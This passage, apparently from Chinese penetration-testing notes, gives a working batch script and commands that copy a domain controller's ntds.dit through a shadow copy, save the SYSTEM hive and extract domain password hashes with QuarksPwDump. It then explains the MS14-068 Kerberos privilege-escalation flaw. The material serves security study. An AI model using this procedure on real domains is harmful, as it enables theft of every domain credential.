 这里贴出我的VS装的Win 10SDK下的：

* [Arm64](/download/arm64/vshadow.exe)
* [x64](/download/x64/vshadow.exe)
* [x86](/download/x86/vshadow.exe)

shadowcopy.bat内容如下：

```bat
setlocal
if NOT "%CALLBACK_SCRIPT%"=="" goto :IS_CALLBACK
set SOURCE_DRIVE_LETTER=%SystemDrive%
set SOURCE_RELATIVE_PATH=windows\ntds\ntds.dit
set DESTINATION_PATH=%~dp0
@echo ...Determine the scripts to be executed/generated...
set CALLBACK_SCRIPT=%~dpnx0
set TEMP_GENERATED_SCRIPT=GeneratedVarsTempScript.cmd
@echo ...Creating the shadow copy...
"%~dp0vshadow.exe" -script=%TEMP_GENERATED_SCRIPT% -exec="%CALLBACK_SCRIPT%" %SOURCE_DRIVE_LETTER%
del /f %TEMP_GENERATED_SCRIPT%
@goto :EOF
:IS_CALLBACK
setlocal
@echo ...Obtaining the shadow copy device name...
call %TEMP_GENERATED_SCRIPT%
@echo ...Copying from the shadow copy to the destination path...
copy "%SHADOW_DEVICE_1%\%SOURCE_RELATIVE_PATH%" %DESTINATION_PATH%
reg save hklm\system system.hive
```

将三个文件放到同一目录下，然后执行该脚本，可以看到导出了`ntds.dit`和`system.hive`文件。

然后使用QuarksPwDump修复ntds.dit并导出域散列值即可查看：

```powershell
QuarksPwDump.exe -dhd -sf system.hive -nt ntds.dit -o log.txt
```

也可以使用`esentutl`修复`ntds.dit`文件：

```powershell
esentutl /p /o ntds.dit
```

### Kerberos域用户提权漏洞分析与防范

该漏洞的编号为：`MS14-068`、`CVE-2014-6324`

几乎所有的Windows服务器操作系统都会收到该漏洞的影响。

该漏洞可导致获得目录整体权限控制受到影响，允许攻击者将域内任意用户权限提升至域管理级别。简单来说，就是如果拿下了域内任意一台机器的Shell权限，并且知道了任意域用户的用户名、SID、密码，就可以获得域管理员的权限，进而控制域控，获得域权限。

该漏洞产生原因如下：用户在向Kerberos的KDC申请TGT时，可以伪造自己的Kerberos票据。如果票据声明自己有域管理员权限，而KDC在处理时未验证票据的签名，那么返回给用户的TGT就使普通域用户拥有了域管理员权限。该用户可以将TGT发送到KDC，KDC的TGS在验证TGT后，将ST发送给该用户，而该用户拥有访问该服务的权限，从而使攻击者可以访问域内的资源

#### 测试环境
